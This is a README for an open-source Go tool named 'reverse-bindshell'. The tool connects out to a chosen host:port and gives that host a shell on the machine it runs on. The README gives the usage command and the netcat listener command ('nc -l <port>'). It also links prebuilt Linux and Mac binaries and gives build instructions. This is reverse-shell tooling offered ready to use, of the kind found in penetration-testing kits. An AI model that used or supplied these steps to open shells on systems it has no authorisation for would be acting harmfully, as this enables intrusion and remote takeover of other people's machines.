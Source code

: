 <h1 align="center">reverse-bindshell</h1>

<p align="center">
  Create a reverse bindshell: connect to a target host, providing it a shell.
</p>

<p align="center">
  <a href="https://travis-ci.org/darnould/reverse-bindshell" target="_blank"><img src="https://img.shields.io/travis/darnould/reverse-bindshell.svg?style=flat-square"></a>
</p>

## Usage
```
./reverse-bindshell host:port
```

Before running this, you'll want to be listening on the specified port on an accessible host.

Running `netcat` as following on that host should do the trick:
```
nc -l <port>
```

Now you can enter commands to remotely execute on the machine running `reverse-bindshell`.

## Binary Download
* [Linux](https://github.com/darnould/reverse-bindshell/releases/download/v1/reverse-bindshell_linux_amd64)
* [Mac](https://github.com/darnould/reverse-bindshell/releases/download/v1/reverse-bindshell_darwin_amd64)

## Building
A single `reverse-bindshell` executable will be produced.

### With Go installed
```
go build
```

### With Docker installed
```sh
docker run -v "$PWD":/go/src/github.com/darnould/reverse-bindshell -w /go/src/github.com/darnould/reverse-bindshell golang:1.3 go build
```

